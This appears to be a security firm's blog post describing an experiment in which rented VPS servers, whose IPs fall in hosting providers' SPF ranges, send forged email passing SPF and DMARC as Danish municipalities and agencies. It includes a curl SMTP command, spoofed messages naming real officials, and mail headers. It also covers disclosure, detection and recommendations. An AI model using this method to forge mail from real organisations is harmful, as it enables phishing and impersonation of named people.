

# All your SPF includes are belong to us

How are you gentelmen !!

## Context

Both an [article](https://caniphish.com/phishing-resources/blog/compromising-australian-supply-chains-at-scale) written by Sebastian Salla and observations made during technical assessments lead us to an experiment on SPF records of Danish domains. In particular, we focused on spoofing certain mail domains that have a SPF configuration that introduces risks of impersonating mail addresses at these domains.

Note that the techniques used below have been found by others and used before, this article is however a real-life example that confirms SPF risks. While the technical requirements to conduct the attack are pretty simple, the impact for an organization can be high. As an example we successfully impersonated top-level employees of Danish institutions for around 600DKK ($88).

Because detection and prevention of these type of attack is difficult, we also included our recommendations in this article.

## Objectives

The objectives of the experiment were the following:

* Spoofing mails sender domains via loose SPF configurations
* Targeting governemental or critical institutions in Denmark
* Do the above for the least amount of money possible

## Results

We identified 4 of 259 tested domains at risk of this technique. They were all contacted in due time before this post.

## Dataset

We used a rather restricted dataset to specifically target Danish institutions. Most of the domain names we gathered come from listing official government websites and crawling PDFs from these websites to get email addresses and extract the domain part of it.

The result was a list of 259 unique domains, including ministries, municipalities and diverse official institutions.

## Tools

We made a shell script to recursively query the SPF record of a list of domains. While this is definitively not the most scalable approach, it does the job for small lists. Runnning the script for our dataset takes about a minute.


## Targeting hosting providers

Next step we did is that we identified Denmark's main hosting providers and searched for occurences of these in the results of the previous step. This gave us a list of domains having these providers in their SPF includes.

Unfortunately for their clients, these providers do not only include the IP addresses of the provider's SMTP servers made available for their clients, but also IP addresses of servers available for rent.

This mean that anyone able to rent a server within the range can pass the SPF checks made by the defence mail chain for a domain that includes the provider in the record.

So if mydomain.com SPF record looks as such:

```
$ dig +short txt mydomain.com
"v=spf1 include:spf.provider.com -all"
```

then if provider.com SPF record looks like the below:

```
$ dig +short txt provider.com
"v=spf1 ip4:<smtp IP> ip4:<range> -all"
```

what we found was that providers offered renting servers which have IPs in `<range>`, enabling a rented server to serve as a legitimate mail sender for mydomain.com.

### Simply

Simply is one of Denmark's biggest VPS provider. It makes it a good target for our experiment.

We rented a server on https://simply.dk for around 200DKK (including a required domain registration) which was attributed IP `185.20.205.41`

From results of running the script, we could see that the following domains were using simply's SPF records and/or IP ranges:

taarnby.dk, syddjurs.dk => spf.simply.com
rk.dk => spf.unoeuro.com (redirect) => spf.simply.com

The SPF record of Simply is:

```bash
$ dig +short txt spf.simply.com
"v=spf1 ip4:94.231.96.0/20 ip4:93.191.156.0/24 ip4:185.20.205.0/24 -all"
```

As our attributed IP is in the SPF authorized mail server range `185.20.205.0/24` for these domains we can send a forged email as any of them.

#### rk.dk

rk.dk is the official domain name of the Rødovre Kommune (municipality).

As a test, we forged a mail with a non-existent sender adress from rk.dk:

```
From: Jeffrey Bencteux <jefflechef@rk.dk>
To: Jeffrey Bencteux <jbe@improsec.com>
Subject: An example mail with a subject

Dear Jeff,
Long time, no see. I would love to book you for an assessment of mail defence chain of Denmark's institutions.

Nullam ac enim ac velit bibendum tristique a eu nisl. Donec augue eros, sodales ut vulputate ac, convallis sit amet massa. Sed viverra massa vitae diam cursus laoreet. Quisque convallis sem orci. Donec at orci accumsan, vehicula nulla at, pharetra odio. Nulla sit amet lorem lacinia, pulvinar erat aliquet, pellentesque metus. Nulla faucibus, sem eget pulvinar pellentesque, dolor ex fermentum nulla, ac sagittis justo nunc vitae risus. Aliquam erat volutpat. Nullam cursus viverra tellus. Aenean aliquet vestibulum orci nec pharetra. Nunc pellentesque sit amet dui ut eleifend.

Best regards,

Jeff
```

The rented server had limited binaries available, but we found `curl` which was used to send the mail:

```
curl -vvvv smtp://improsec-com.mail.protection.outlook.com --mail-from jefflechef@rk.dk --mail-rcpt jbe@improsec.com --upload-file mail.txt
```


Result in mailbox:


Mail headers

```
[...]
Authentication-Results: spf=pass (sender IP is 185.20.205.41)
 smtp.mailfrom=rk.dk; dkim=none (message not signed)
 header.d=none;dmarc=bestguesspass action=none header.from=rk.dk;compauth=pass
 reason=109
Received-SPF: Pass (protection.outlook.com: domain of rk.dk designates
 185.20.205.41 as permitted sender) receiver=protection.outlook.com;
 client-ip=185.20.205.41; helo=mail.txt;
[...]
```

Note that SPF passes, but Outlook protection mechanisms put the mail in the Junk folder. While we are not sure why (absence of DKIM, other spam considerations etc), this makes a potential phishing way less efficient. Please reach out to us if you know the exact reason.

However, if the receiver is a protonmail address, the mail is delivered to the inbox:


Headers also states that SPF passes:


Same goes with Gmail, the mail gets delivered to the inbox:


Once again SPF passes:


##### taarnby.dk

 taarnby.dk is the official domain name for the Tårnby Kommune (municipality).



SPF check:

```
[...]
ARC-Authentication-Results: i=1; mx.google.com;
       spf=pass (google.com: domain of jefflechef@taarnby.dk designates 185.20.205.41 as permitted sender) smtp.mailfrom=jefflechef@taarnby.dk;
       dmarc=pass (p=REJECT sp=REJECT dis=NONE) header.from=taarnby.dk
[...]
```

##### syddjurs.dk

 syddjurs.dk is the official domain name for the Syddjurs Kommune (municipality).


SPF check:

```
[...]
ARC-Authentication-Results: i=1; mx.google.com;
       spf=pass (google.com: domain of jefflechef@syddjurs.dk designates 185.20.205.41 as permitted sender) smtp.mailfrom=jefflechef@syddjurs.dk;
       dmarc=pass (p=QUARANTINE sp=QUARANTINE dis=NONE) header.from=syddjurs.dk
[...]
```

#### Dandomain

Dandomain is another popular VPS provider in Denmark, it actually is part of the same parent company that owns Simply.

We did the same and rented a server on https://dandomain.dk/ for around 420DKK (for a year) which was attributed IP `93.191.158.7`.

```bash
dig +short txt spf.dandomain.dk
"v=spf1 ip4:194.150.112.0/22 ip4:194.255.46.0/24 ip4:194.255.15.0/27 ip4:94.143.8.0/21 include:_netblocks.zitcom.dk include:_netblocks2.zitcom.dk ~all"
$ dig +short txt _netblocks2.zitcom.dk
"v=spf1 ip4:46.36.204.0/22 ip4:46.36.208.0/21 ip4:217.61.236.0/22 ip4:91.133.32.0/19 ip4:77.243.128.0/20 ip4:193.239.96.0/22 ip4:195.69.128.0/22 ip6:2a02:2338::/32 ip4:89.188.72.0/21 ip4:93.191.152.0/21 ip4:194.150.113.0/24 ip4:194.150.112.0/24 ~all"
```

Our IP is in range `93.191.152.0/21` => _netblocks2.zitcom.dk => spf.dandomain.dk

Looking for this SPF domain in our dataset, we found the following domains trusting it:

 dfi.dk, geus.dk, kfst.dk, soroe.dk, lejre.dk => spf.dandomain.dk

##### geus.dk

[geus.dk](https://www.geus.dk/) is "De Nationale Geologiske Undersøgelser for Danmark og Grønland" ("The Geological Survey of Denmark and Greenland").

The institution's phone book can be seen on the website, it contains email adresses for all employees:

https://eng.geus.dk/about/contact/phone-book?departmentId=Management


including the management. Here we identified the director `flar@geus.dk`

Let's send a mail from Flemming Larsen (flar@geus.dk) from our server:

```
From: Flemming Larsen <flar@geus.dk>
To: Lars Olsen <ljodanban@gmail.com>
Subject: An example mail with a subject

Dear Jeff,

Long time, no see. I would love to book you for an assessment of mail defence chain of Denmark's institutions.

Nullam ac enim ac velit bibendum tristique a eu nisl. Donec augue eros, sodales ut vulputate ac, convallis sit amet massa. Sed viverra massa vitae diam cursus laoreet. Quisque convallis sem orci. Donec at orci accumsan, vehicula nulla at, pharetra odio. Nulla sit amet lorem lacinia, pulvinar erat aliquet, pellentesque metus. Nulla faucibus, sem eget pulvinar pellentesque, dolor ex fermentum nulla, ac sagittis justo nunc vitae risus. Aliquam erat volutpat. Nullam cursus viverra tellus. Aenean aliquet vestibulum orci nec pharetra. Nunc pellentesque sit amet dui ut eleifend.

Best regards,

Flemming Larsen
```


SPF passes once again:

```
[...]
ARC-Authentication-Results: i=1; mx.google.com;
       spf=pass (google.com: domain of flar@geus.dk designates 93.191.158.7 as permitted sender) smtp.mailfrom=flar@geus.dk;
       dmarc=pass (p=REJECT sp=REJECT dis=NONE) header.from=geus.dk
Return-Path: <flar@geus.dk>
Received: from mail.txt (linux5.dandomain.dk. [93.191.158.7])
        by mx.google.com with ESMTP id di10-20020a170906730a00b006e8d7bf31d1si4692275ejc.634.2022.04.21.05.35.19
        for <ljodanban@gmail.com>;
        Thu, 21 Apr 2022 05:35:20 -0700 (PDT)
Received-SPF: pass (google.com: domain of flar@geus.dk designates 93.191.158.7 as permitted sender) client-ip=93.191.158.7;
Authentication-Results: mx.google.com;
       spf=pass (google.com: domain of flar@geus.dk designates 93.191.158.7 as permitted sender) smtp.mailfrom=flar@geus.dk;
       dmarc=pass (p=REJECT sp=REJECT dis=NONE) header.from=geus.dk
Date: Thu, 21 Apr 2022 05:35:20 -0700 (PDT)
Message-ID: <62614f88.1c69fb81.88268.bedaSMTPIN_ADDED_MISSING@mx.google.com>
From: Flemming Larsen <flar@geus.dk>
To: Jeffrey Bencteux <jbe@improsec.com>
Subject: An example mail with a subject
[...]
```

##### kfst.dk

kfst.dk is the Danish Competition and Consumer Authority ("Konkurrence- og Forbrugerstyrelsen").

Their website also states who is head of the institution:

https://www.kfst.dk/om-os/organisation/centre/
https://www.kfst.dk/om-os/organisation/centre/jakob-hald-cv/


Let's send a mail from Jakob Hald (jah@kfst.dk) from our server:

```
From: Jakob Hald <jah@kfst.dk>
To: Lars Olsen <ljodanban@gmail.com>
Subject: An example mail with a subject

Dear Jeff,

Long time, no see. I would love to book you for an assessment of mail defence chain of Denmark's institutions.

Nullam ac enim ac velit bibendum tristique a eu nisl. Donec augue eros, sodales ut vulputate ac, convallis sit amet massa. Sed viverra massa vitae diam cursus laoreet. Quisque convallis sem orci. Donec at orci accumsan, vehicula nulla at, pharetra odio. Nulla sit amet lorem lacinia, pulvinar erat aliquet, pellentesque metus. Nulla faucibus, sem eget pulvinar pellentesque, dolor ex fermentum nulla, ac sagittis justo nunc vitae risus. Aliquam erat volutpat. Nullam cursus viverra tellus. Aenean aliquet vestibulum orci nec pharetra. Nunc pellentesque sit amet dui ut eleifend.

Best regards,

Jakob Hald
```

Mail gets received:


and SPF passes:

```
[...]
ARC-Authentication-Results: i=1; mx.google.com;
       spf=pass (google.com: domain of jah@kfst.dk designates 93.191.158.7 as permitted sender) smtp.mailfrom=jah@kfst.dk;
       dmarc=pass (p=REJECT sp=REJECT dis=NONE) header.from=kfst.dk
Return-Path: <jah@kfst.dk>
Received: from mail.txt (linux5.dandomain.dk. [93.191.158.7])
        by mx.google.com with ESMTP id e13-20020a1709067e0d00b006e88d2e4fe2si3759057ejr.967.2022.04.21.05.50.47
        for <ljodanban@gmail.com>;
        Thu, 21 Apr 2022 05:50:47 -0700 (PDT)
Received-SPF: pass (google.com: domain of jah@kfst.dk designates 93.191.158.7 as permitted sender) client-ip=93.191.158.7;
Authentication-Results: mx.google.com;
       spf=pass (google.com: domain of jah@kfst.dk designates 93.191.158.7 as permitted sender) smtp.mailfrom=jah@kfst.dk;
       dmarc=pass (p=REJECT sp=REJECT dis=NONE) header.from=kfst.dk
Date: Thu, 21 Apr 2022 05:50:47 -0700 (PDT)
Message-ID: <62615327.1c69fb81.85090.ac2cSMTPIN_ADDED_MISSING@mx.google.com>
From: Jakob Hald <jah@kfst.dk>
To: Lars Olsen <ljodanban@gmail.com>
Subject: An example mail with a subject
[...]
```

## Detection

This type of attack is hard to detect both for the owner of the spoofed domain and from the receiver who uses an off-the-shelf middle-box/spam filter available on the market. Nothing distinguish a legit email sent from a malicious one as the attacker IP used is considered legit.

DMARC also passes in a lot of the above examples and that is because there is an implicit boolean "or" on "SPF pass" and "DKIM pass" on mails received for the above mail providers.

A few leads for detection could then be:
* Checking that sender IP addresses are not part of a range available for rent by a third-party provider, but that is hard to automate.
* Look for mails that do not have DKIM or that fails it.
* Check if sender's IP is "unusual" using a pre-established list of IP addresses, as seen often with machine learning algorithms. This however requires fine-tuning and a certain maturity in detection.

## Recommendations
* Do not blindly trust SPF records from third-party providers.
* Assess the SPF records of your organization regularly, including both IP addresses, domain names, and IP addresses resolved by those domain names. Note that if you include a third party domain name, the IP addresses behind it can change at any time.
* Use DKIM for email signature and increase the spam score of emails missing DKIM.
